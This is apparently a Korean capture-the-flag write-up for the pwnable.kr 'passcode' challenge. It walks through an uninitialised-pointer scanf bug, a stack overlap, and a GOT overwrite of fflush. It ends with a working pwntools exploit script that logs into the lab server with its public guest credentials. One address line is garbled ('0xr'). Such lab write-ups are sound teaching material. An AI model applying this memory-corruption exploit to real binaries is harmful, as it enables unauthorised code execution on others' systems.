

컴파일러 warning이 있었지만 무시하고 에러 없이 컴파일했다고 한다.



passcode.c를 열어보자.

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
 int passcode1;
 int passcode2;

 printf("enter passcode1 : ");
 scanf("%d", passcode1);
 fflush(stdin);

 // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
 printf("enter passcode2 : ");
        scanf("%d", passcode2);

 printf("checking...\n");
 if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
  exit(0);
        }
}

void welcome(){
 char name[100];
 printf("enter you name : ");
 scanf("%100s", name);
 printf("Welcome %s!\n", name);
}

int main(){
 printf("Toddler's Secure Login System 1.0 beta.\n");

 welcome();
 login();

 // something after login...
 printf("Now I can safely trust you that you have credential :)\n");
 return 0;
}
```

passcode1과 passcode2를 알려주고 있다.
일단 passcode 파일을 실행했다.
name을 입력하고 passcode1을 입력했는데, segmentation fault 에러가 발생하고 종료됐다.



scanf에서 passcode를 받을 때 '&' 문자로 주소를 정해줘야 하는데 빠져 있어서 생기는 에러인 것 같다.


### gcc

무슨 warning이 생겼던 건지 passcode.c 파일을 한번 컴파일해보자.



scanf 함수가 결과를 저장할 passcode1과 passcode2의 주소를 주는 것 대신 그냥 값을 패스하고 있다.

welcome 함수의 scanf에서 warning이 안 뜨는 이유는, 배열의 이름은 base address를 가리키는 포인터로 취급되기 때문이다.


### disas welcome

welcome 함수를 disassemble해보자.


```c
void welcome(){
 char name[100];
 printf("enter you name : ");
 scanf("%100s", name);
 printf("Welcome %s!\n", name);
}
```

welcome+33부터 welcome+48까지, scanf 함수에서 벌어지는 일은 다음과 같다.
1. mov $0x80487cb, %eax
	- 문자열 포맷인 `%100s`의 주소를 레지스터 eax에 이동
2. *lea -0x70(%ebp), %edx
	- -0x70(%ebp)는 ebp 레지스터의 값에서 0x70을 뺀 주소를 계산해서 edx에 저장
	- `name` 문자열 배열의 시작 주소를 나타냄

`$ebp-0x70`이 `name`의 주소가 맞는지 확인해보자.

scanf 함수가 호출된 직후인 0x00804863e에 breakpoint를 걸고 실행한다.



`(gdb) x/1s $ebp-0x70`
맞았다!


### disas login

이제 passcode1을 찾아보자.



```c
void login(){
 int passcode1;
 int passcode2;

 printf("enter passcode1 : ");
 scanf("%d", passcode1);
 fflush(stdin);

 // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
 printf("enter passcode2 : ");
        scanf("%d", passcode2);

 printf("checking...\n");
 if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
  exit(0);
        }
}
```

scanf 함수를 찾으면 passcode1과 passcode2의 주소도 찾을 수 있다.
```
0x0804857c <+24>: mov    -0x10(%ebp),%edx
[...]
0x080485aa <+70>: mov    -0xc(%ebp),%edx
```

위에서 찾은 name의 주소는 `$ebp-0x70`이었는데, passcode1의 주소는 `$ebp-0x10`이다.
거리가 0x60=96만큼 차이나므로, name의 크기인 100바이트보다 작다. name 배열 끝 4바이트가 passcode1의 주소와 겹친다는 의미이다.
따라서 name에 무슨 입력값을 넣느냐에 따라 4바이트만큼 passcode1의 초기값을 덮어씌울 수 있다.


### PLT & GOT
참고: https://jiravvit.tistory.com/entry/PLT%EC%99%80-GOT
- PLT
	- 외부 라이브러리 함수를 사용할 수 있도록 주소를 연결해주는 테이블
- GOT
	- PLT에서 호출하는 resolve 함수를 통해 구한, 라이브러리 함수의 절대 주소가 저장되어 있는 테이블
- Dynamic Link 방식으로 컴파일된 파일은 프로그램 내부에 라이브러리가 존재하지 않기 때문에, 외부 라이브리로 링크하는 과정이 필요함

이를 이용해 `login()` 안에 있는 함수 중 하나를 골라 그 함수의 PLT를 타고 도착한 GOT 테이블을 `system(/bin/cat flag)`로 덮어쓰면 된다.

name 끝 4바이트에 fflush의 GOT 주소를 입력해서 실행시킨다.
이때 fflush 함수의 GOT를 `system(/bin/cat flag)`로 바꿔서, 실행될 때 fflush 대신 system을 실행하게 해보자.

순서는 다음과 같다.
1. name을 입력할 때 마지막 4바이트에 `fflush` 함수의 GOT 테이블의 주소를 입력한다.
2. passcode1는 `fflush` 함수의 GOT가 된다.
3. passcode1을 입력할 때 `system` 함수의 시작 주소를 입력한다.
4. 이후 `fflush` 함수가 실행될 때 `system` 함수가 대신 실행된다.


### disas fflush

`fflush`의 GOT 테이블 주소를 찾아보자.



`0x08048430 <+0>: jmp *0x804a004`에서 0x804a004로 jmp하는데, 이곳이 `fflush` 함수의 GOT이다.


### system(/bin/cat flag)

`system`의 시작 주소는 `login` 함수를 보면 알 수 있다.



0xr이다.
하지만 passcode1을 입력받을 때 정수형으로 받기 때문에, 10진수로 바꿔서 보내야 한다.
0x080485e3 = 134514147


### 해결

```python
from pwn import *

fflush_got = 0x804a004

payload = b'A'*96
payload += p32(fflush_got)   # fflush_got을 32비트 리틀 엔디안으로 변환

payload2 = '134514147'

# p = process('./passcode')
s = ssh('passcode', 'pwnable.kr', password='guest', port=2222)
p = s.process('/home/passcode/passcode')

p.sendline(payload)
p.sendline(payload2)

p.interactive()
```



🚩